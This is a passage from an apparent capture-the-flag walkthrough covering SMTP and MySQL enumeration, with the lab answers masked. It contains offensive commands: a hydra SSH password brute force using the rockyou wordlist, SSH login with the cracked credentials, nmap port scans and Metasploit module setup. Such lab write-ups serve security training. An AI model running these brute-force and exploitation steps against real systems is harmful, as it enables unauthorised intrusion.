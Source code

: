 	- `RHOSTS`

- Now, set the THREADS parameter to 16 and run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!

	  no answer needed

- Okay! Now that's finished, what username is returned?

	- `******************`

- What is the password of the user we found during our enumeration stage?

	- `hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV <TARGET_IP> ssh`
	- `**********`

- Great! Now, let's SSH into the server as the user, what is contents of smtp.txt

	- `ssh USERNAME@<TARGET_IP>`
	- `cat smtp.txt`
	- `******************************************`

- What type of software is MySQL?

	- `relational database management system`

- What language is MySQL based on?

	- `sql`

- What communication model does MySQL use?

	- `client-server`

- What is a common application of MySQL?

	- `back end database`

- What major social network uses MySQL as their back-end database? This will require further research.

	- `Facebook`

- As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?

	- `nmap -a -p- <TARGET_IP>`
	- `3***`

- Good, now- we think we have a set of credentials. Let's double check that by manually connecting to the MySQL server. We can do this using the command "mysql -h [IP] -u [username] -p"

	  no answer needed


- Okay, we know that our login credentials work. Lets quit out of this session with "exit" and launch up Metasploit.

	  no answer needed

- We're going to be using the `mysql_sql` module. Search for, select and list the options it needs. What three options do we need to set? (in descending order).
